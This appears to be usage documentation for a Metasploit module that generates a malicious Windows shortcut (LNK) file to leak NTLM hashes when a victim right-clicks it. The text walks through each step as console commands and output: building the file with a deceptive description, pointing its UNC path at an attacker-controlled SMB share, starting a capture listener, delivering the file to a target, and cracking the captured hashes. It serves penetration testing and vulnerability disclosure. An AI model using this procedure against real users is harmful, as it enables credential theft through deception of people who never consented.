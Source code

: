 This module generates a malicious Windows shortcut (LNK) file that embeds a special UNC path within the EnvironmentVariableDataBlock of the Shell Link structure. When a victim right-clicks the LNK file in Windows Explorer, it triggers an automatic authentication attempt to the specified remote SMB server, enabling the capture of NTLM hashes.

The exploit takes advantage of how Windows handles environment variables in LNK files during context menu operations, leading to unsolicited SMB connections without requiring the file to be opened.

## Vulnerable Application

Windows systems where LNK files are processed in Explorer, particularly during right-click actions that load context menus. This can result in NTLM credential leaks over SMB.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)

Disclosure Date: 2025-05-06.

## Verification Steps

1. Start msfconsole.
2. Load the module: `use auxiliary/fileformat/right_click_lnk_leak`.
3. Set required options (e.g., FILENAME, UNC_PATH).
4. Optionally customize DESCRIPTION, ICON_PATH, or PADDING_SIZE.
5. Execute the module: `run`.
6. A malicious LNK file is generated.
7. Set up an SMB capture listener (e.g., `auxiliary/server/capture/smb`).
8. Deliver the LNK file to the target system.
9. Right-click the LNK file in Explorer to trigger the SMB connection.
10. Monitor the listener for captured NTLM hashes.

## Options

### FILENAME

The name of the generated LNK file.

Default: `msf.lnk`

Example:
```
set FILENAME context.lnk
```

### UNC_PATH

The UNC path (e.g., `\\server\share`) that the LNK will attempt to access for credential capture.

Default: `\\192.168.1.1\share`

Example:
```
set UNC_PATH \\attacker.ip\captureshare
```

### DESCRIPTION

The description for the shortcut.

Default: `Testing Purposes`

Example:
```
set DESCRIPTION Important File
```

### ICON_PATH

The path to an icon for the LNK file.

Default: `e.g. abc.ico`

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### PADDING_SIZE

Size of padding in the command arguments.

Default: 10

Example:
```
set PADDING_SIZE 20
```

## Scenarios

### NTLM Hash Capture on Right-Click

Target: Windows system with Explorer (e.g., Windows 10 or later).

Generate the LNK file:

```
msf > use auxiliary/fileformat/right_click_lnk_leak
msf auxiliary(fileformat/right_click_lnk_leak) > set FILENAME context.lnk
FILENAME => context.lnk
msf auxiliary(fileformat/right_click_lnk_leak) > set UNC_PATH \\192.168.1.25\share
UNC_PATH => \\192.168.1.25\share
msf auxiliary(fileformat/right_click_lnk_leak) > set DESCRIPTION Fake Document
DESCRIPTION => Fake Document
msf auxiliary(fileformat/right_click_lnk_leak) > set ICON_PATH %SystemRoot%\\System32\\imageres.dll
ICON_PATH => %SystemRoot%\\System32\\imageres.dll
msf auxiliary(fileformat/right_click_lnk_leak) > set PADDING_SIZE 15
PADDING_SIZE => 15
msf auxiliary(fileformat/right_click_lnk_leak) > run

[*] Creating 'context.lnk' file...
[+] LNK file created: context.lnk
[*] Set up a listener (e.g., auxiliary/server/capture/smb) to capture the authentication
[*] Auxiliary module execution completed
```

Set up the capture listener on the attacker machine:

```
msf > use auxiliary/server/capture/smb
msf auxiliary(server/capture/smb) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(server/capture/smb) > run
[*] Server started.
```

Deliver `context.lnk` to the target. When the victim right-clicks it, an SMB connection is attempted:

```
[*] SMB Captured - 2025-09-18 21:08:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:targetuser DOMAIN:TARGETPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:examplehashvalue
NT_CLIENT_CHALLENGE:examplechallenge
```

Use cracking tools to recover credentials from the hash.
